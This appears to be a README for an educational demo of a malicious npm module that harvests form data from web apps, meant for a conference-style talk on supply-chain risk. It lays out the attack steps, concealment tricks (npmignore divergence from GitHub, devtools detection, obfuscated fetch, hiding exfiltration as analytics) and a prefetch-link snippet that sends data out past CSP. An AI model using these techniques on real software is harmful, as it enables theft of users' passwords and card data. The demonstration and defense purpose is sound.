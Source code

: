 If you're like me, you have grown to love how productive you can be using NPM. There is a staggering number of common problems that have already been solved. As developers, we tend to have a great deal of trust towards NPM and the code that it hosts. How often do we carefully examine the code we are about to import into our projects?

The following project aims to show the dangers of blindly importing NPM modules. It shows how just because you can see the code on Github does not mean the module you are importing is safe. It also demonstrates how all it takes is one disgruntled employee to start harvesting user's data, both silently and indefinitely. It shows just how hard it is to sniff out such an attack by utilizing some clever tricks. Finally, it aims to show how as our javascript project's dependencies grow, our risk of being affected by such an attack increases dramatically.

##### Credit

This entire project is based off [this Medium Post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). Credit to it's author, David Gilbertson, for all the ideas and even some of the code.

##### What all is here?

1. A basic React app with some form inputs that we will harvest
    * Created with create-react-app
    * found in /demo/src
2. A npm module, 'bad_juju', that will house our malicious code while presenting itself as a useful module
    * found in /node_modules/bad_juju
3. An api to receive the form data
    * Express server

##### Running the React Application

```javascript
# within demo dir
> yarn
> yarn start
```

##### Running the API

```javascript
# within demo dir
> yarn
> node ./api
```

##### How does the attack work?

1. User creates seemingly useful node_module
2. When imported, our node_module applies exploit to all forms on the site/application
3. Send all form data to an API - this should a) not be visible to humans and b) appear as though its just an analytics link
4. Be clever about how/when we send the form data and use all the information available to judge how safe it is to send
5. Make Pull Requests to Open Source projects and attempt to add our dependency to the project
6. Sit back and watch the data pour in

##### What shows in Github is not necessarily what is in NPM
using .gitignore, .npmignore, and the files configuration option in our package.json, we can have different code in NPM than what shows in Github. So you really have no clue what code you are running from NPM, even if you have complete access to the github source. The only way to check this would be to check the 3 config files from the first sentence of this section. I bet you don't do that every time you install an NPM module, do you?


##### Content Security Policy
This is supposed to be our saving grace, right? Wrong. In Chrome, we can bypass the content security policy using the following code
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

##### Why is NPM the distribution method?
When we add a dependency to our project, NPM will automatically pull in all of this new dependency's dependencies. This means that if one popular package gets infected, it will likely spread to hundreds or thousands of smaller packages. An infected top level package would be bad news for everyone. Remember left_pad?

##### So what... I can never use NPM modules?
Well that certainly is one option... If you truly want to ensure that you will never fall victim to this attack, you must isolate any pages with sensitive form data outside of the scope of the NPM modules. Example, for a login or checkout screen, you may want to embed an isolated page within an iFrame. This way no offending code will be able to attack the content with the iFrame.

##### Presenting this content
I created this project for a couple of reasons, namely, to recreate what David Gilbertson has described in his blog post. I ended up having a ton of fun setting this up, and wanted to turn it into a short talk - not unlike those you may find at a developers conference. 

Without further ado, here's the order I settled on when presenting:

1) Background terminology
    * What is NPM?
    * What is Content-Security-Policy? CORS?
    * What is fetch?
2) Demo the React Application + Look at the App/Form code
3) Demo the api + Look at the api code
    * Reminder that in the real world, the domain would look like an analytics site
4) Toggle on various checks in the code
    1) QA working
    2) Devtools open (The Heisenberg Manuever)
    3) Known Devices
    4) In Dev/UAT/QA/Staging environment
5) Gitignore and Npmignore tricks
6) Obfuscated fetch (cipher technique + EventSource API)
7) Content-Security-Policy Bypasses
    * Append created link element w/ prefetch
    * report-uri not explicitly set
    * default-uri not explicitly set
    * Pre-reading the active Content-Security-Policy and acting on it
    * undefined form-action override
      * only perform once and bounce back - hope the user just shrugs it off
8) What can you do about it?
9) Questions/Comments


##### Possible Improvements
* Failed api requests should fail silently
* This demo got more involved than I was anticipating, proper tests around the exploit would be nice.
* A more elegant (read: functional) way to configure/run the various safety nets

